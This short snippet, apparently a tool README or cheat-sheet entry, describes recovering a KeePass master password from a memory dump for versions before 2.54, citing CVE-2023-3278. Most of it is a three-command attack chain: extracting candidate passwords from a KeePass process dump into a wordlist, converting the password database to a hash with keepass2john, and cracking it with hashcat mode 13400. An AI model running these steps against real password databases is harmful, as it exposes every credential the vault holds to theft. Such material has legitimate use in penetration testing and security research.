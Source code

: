 Keepass master password retrieval using a memory dump.
Vulnerable versions <KeePass 2.54
[CVE-2023-3278]

```
keepass-dump-extractor KeePass.DMP -f all > wordlist.txt

keepass2john passwords.kdbx > passwords.kdbx.hash
hashcat -m 13400 --username passwords.kdbx.hash wordlist.txt

```